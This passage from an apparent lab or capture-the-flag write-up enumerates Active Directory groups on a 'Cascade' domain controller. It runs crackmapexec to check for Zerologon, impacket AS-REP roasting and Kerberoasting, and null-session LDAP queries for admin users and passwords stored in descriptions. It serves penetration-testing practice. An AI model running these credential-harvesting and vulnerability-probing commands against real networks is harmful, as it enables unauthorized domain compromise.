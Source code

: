 ```sh
group:[DnsAdmins] rid:[0x44e]
group:[IT] rid:[0x459]
group:[Production] rid:[0x45a]
group:[HR] rid:[0x45b]
group:[AD Recycle Bin] rid:[0x45f]
group:[Backup] rid:[0x460]
group:[Temps] rid:[0x463]
group:[WinRMRemoteWMIUsers__] rid:[0x465]
group:[Remote Management Users] rid:[0x466]
group:[Factory] rid:[0x46c]
group:[Finance] rid:[0x46d]
group:[Audit Share] rid:[0x471]
group:[Data Share] rid:[0x472]
Group: HR (RID: 1115) has member: CASCADE\s.hickson
Group: Audit Share (RID: 1137) has member: CASCADE\s.smith
Group: Data Share (RID: 1138) has member: CASCADE\Domain Users
Group: IT (RID: 1113) has member: CASCADE\arksvc
Group: IT (RID: 1113) has member: CASCADE\s.smith
Group: IT (RID: 1113) has member: CASCADE\r.thompson
Group: Remote Management Users (RID: 1126) has member: CASCADE\arksvc
Group: Remote Management Users (RID: 1126) has member: CASCADE\s.smith
Group: AD Recycle Bin (RID: 1119) has member: CASCADE\arksvc


# check for zerologon vuln b/c the server is old (2008)
crackmapexec smb cascade -u '' -p '' -M zerologon
ZEROLOGO... cascade         445    CASC-DC1         VULNERABLE
ZEROLOGO... cascade         445    CASC-DC1         Next step: https://github.com/dirkjanm/CVE-2020-1472
```

### ldap

```sh
# check AS-REP roastable users
❯ impacket-GetNPUsers -request -outputfile asreproast.hash -dc-ip cascade 'cascade.local/:'
No entries found!

# check Kerberoastable users
❯ impacket-GetUserSPNs -request -outputfile kerberoast.hash -dc-ip cascade 'cascade.local/:'
No entries found!

# list users with admin rights
crackmapexec ldap cascade -u '' -p '' --admin-count
# error (maybe no null session allowed?)

# look for user passwords within descriptions
crackmapexec ldap cascade -u '' -p '' -M get-desc-users
# error (maybe no null session allowed?)
```

